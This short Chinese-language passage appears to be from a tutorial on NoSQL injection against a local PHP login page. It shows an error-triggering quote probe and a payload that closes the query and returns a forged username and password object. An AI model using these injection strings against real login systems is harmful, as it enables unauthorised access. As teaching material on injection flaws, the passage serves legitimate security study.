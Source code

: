 攻击方式：

> http://127.0.0.1/1.php?username=test'&password=test

![enter image description here](img/img5_u1_png.jpg)

报错。 想办法闭合语句。

> http://127.0.0.1/1.php?username=test'});return {username:1,password:2}//&password=test

该语句能返回一个数组，username 键值是 1，password 键值是 2.

![enter image description here](img/img6_u7_png.jpg)
